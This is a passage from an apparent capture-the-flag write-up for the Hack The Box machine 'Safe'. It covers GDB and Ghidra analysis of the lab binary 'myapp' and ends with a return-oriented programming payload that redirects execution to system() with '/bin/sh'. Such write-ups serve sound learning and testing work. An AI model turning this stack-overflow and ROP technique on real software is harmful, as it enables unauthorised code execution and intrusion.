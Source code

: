 <p>Excellent. We see the <code>system()</code> call at the top of the stack and our breakpoint at myapp's <code>return 0;</code> show's the execution flow is being redirected to <code>system()</code> instead of exiting. Now this in itself wasn't particularly useful. I wanted to see how <code>/usr/bin/uptime</code> was being passed to the call. I set up a breakpoint on the initial call and compared between this one and my forced call at the end.</p>

{% highlight shell %}
Initial system call:
system@plt (
   $rdi = 0x0000000000402008 → "/usr/bin/uptime",
   $rsi = 0x00007fffffffe268 → 0x00007fffffffe549 → "/root/Desktop/HTB/Safe/myapp"
)

My system call:
system@plt (
   $rdi = 0x0000000000000000,
   $rsi = 0x0000000000405260 → "What do you want me to echo back? AAAAAAAAAAAAAAAA[...]"
)
{% endhighlight %}

<p>Alright, so I need to find a gadget that can overwrite <code>$rdi</code> to something of my choosing. Going back to the ghidra decompile I found a handy function built in to the app. Despite <code>test()</code> never being called, it does provide us the appropriate gadgets necessary to update <code>$rdi</code>.</p>

{% highlight shell %}
**************************************************************
*                          FUNCTION                          *
**************************************************************
undefined test()
     undefined         AL:1           <RETURN>
     test                                            XREF[3]:     Entry Point(*), 00402060, 
                                                                                  00402108(*)  
00401152 55              PUSH       RBP
00401153 48 89 e5        MOV        RBP,RSP
00401156 48 89 e7        MOV        RDI,RSP
00401159 41 ff e5        JMP        R13
{% endhighlight %}

<p>Now there is one extra complication here. While <code>test()</code>moves the value of <code>$rsp</code> into <code>$rdi</code> like we need, it then jumps to the value of <code>$r13</code> which is currently/will be empty at the moment. We need to chain this call with another gadget that also pops an address off the stack (which we control) into <code>$r13</code>. GDB has a nice ropper function for this exact purpose.</p>

<p align="center">
<img src="{{ '/assets/htb-safe/gdb-ropper.PNG' | relative_url }}">
</p>

<p>Ok so there are three pops as part of this gadget. We need to take that into consideration and include fluff to ensure we get the right address into <code>r13</code> and the rest our stack isn't adversely affected. Thinking about this logically we want to form the exploit as follows:</p>

{% highlight python %}
"A"*120 +                             #fluff until the start of stack
"\x06\x12\x40\x00\x00\x00\x00\x00" +  # pop r13; pop r14; pop r15; ret;
"\x6e\x11\x40\x00\x00\x00\x00\x00" +  #system() - r13
"\x6e\x11\x40\x00\x00\x00\x00\x00" +  #system() - r14
"\x6e\x11\x40\x00\x00\x00\x00\x00" +  #system() - r15
"\x52\x11\x40\x00\x00\x00\x00\x00" +  # test()
"/bin/sh " +                          #command we want to execute 
"C"*100                               #rest of fluff
{% endhighlight %}
